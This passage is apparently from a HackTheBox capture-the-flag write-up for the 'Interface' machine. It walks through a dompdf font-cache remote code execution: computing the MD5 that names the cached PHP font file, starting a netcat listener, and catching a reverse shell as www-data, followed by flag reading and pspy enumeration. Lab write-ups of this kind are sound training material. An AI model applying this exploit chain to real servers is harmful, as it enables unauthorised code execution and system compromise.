 According [positive.security](https://positive.security/blog/dompdf-rce) blog post says wen an external font is used, `dompdf` caches it locally in the `/lib/fonts` sub-directory and adds a corresponding entry in `dompdf_font_family_cache.php`. Also the in the blog post there is a code snippet which shows that the file will be stored with its name but is `md5` hash will be appended at the end of the file name before its extension example if the file is `hashghost_font.php` then it will be stored as `hashghostfont_normal_md5hash.php`

**Step 07**

Create `md5` hash of the file `exploit_font.php`
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/Machines/interface]
└─$ echo -n http://10.10.14.94/exploit_font.php | md5sum
1a3cd1e49f9b715e8e533407fa8b1caa  -
```

**Step 08**

Start a listener
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/Machines/interface]
└─$ nc -nlvp 1234
```

**Step 09**

Send the request now 

![image](/assets/img/interface/07.png)

**Step 10**

Response in `netcat` listener 
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/Machines/interface]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.11.200] 33382
bash: cannot set terminal process group (1159): Inappropriate ioctl for device
bash: no job control in this shell
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ 
```
## User 
With user `www-data` i was able to read flag of user `dev` 
```
www-data@interface:/home/dev$ cat user.txt 
415feaa963*******************
```
## Root 
I uploaded [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) and found that there is a clean up script running by user `root`
``` 
2023/03/30 22:26:01 CMD: UID=0     PID=2784   | /bin/bash /usr/local/sbin/cleancache.sh 
```